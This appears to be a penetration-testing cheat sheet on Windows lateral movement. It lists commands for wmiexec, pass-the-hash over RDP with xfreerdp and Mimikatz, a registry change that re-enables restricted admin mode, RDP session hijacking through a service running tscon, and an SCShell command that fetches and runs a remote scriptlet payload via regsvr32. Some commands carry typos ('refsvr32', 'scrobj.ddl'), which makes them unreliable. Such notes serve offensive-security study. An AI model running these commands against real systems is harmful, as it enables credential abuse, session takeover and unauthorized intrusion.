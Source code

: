 ### WMI
```
wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET>
``` 

### PoisonHandler
- https://github.com/Mr-Un1k0d3r/PoisonHandler

### RDP
#### Pass the hash rdp xfreerdp
```
xfreerdp /u:<USER> /d:<DOMAIN> /pth:<NTLM HASH> /v:<TARGET>
```

#### Pass the hash RDP
```
Invoke-Mimikatz -Command "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm<NTLM HASH> /run:'mstsc.exe /restrictedadmin'"
```

- If the admin mode is disabled
```
Enter-PSSession -Computername <TARGET>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

#### Hijack RDP session
```
query user
sc.exe create rdphijack binpath="cmd.exe /c tscon <ID> /dest:<SESSION NAME>"
net start rdphijack
sc.exe delete rdphijack
```

#### Accessing RDP credentials
- Complicated have to access ECPPTX again and try it out

### ChangeServiceConfigA
- https://github.com/SpiderLabs/SCShell
- Uses DCERPC instead of SMB

```
SCShell.exe <TARGET> XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\refsvr32.exe /s /n /u /i://<PAYLOAD WEBSITE>/payload.sct scrobj.ddl" . <USER> <PASSWORD>
SCShell.py
```

### WinRM
- Uses WMI over HTTPS (P 5985 and 5986)
- https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs
- https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-6
- https://github.com/Hackplayers/evil-winrm
- https://github.com/bohops/WSMan-WinRM

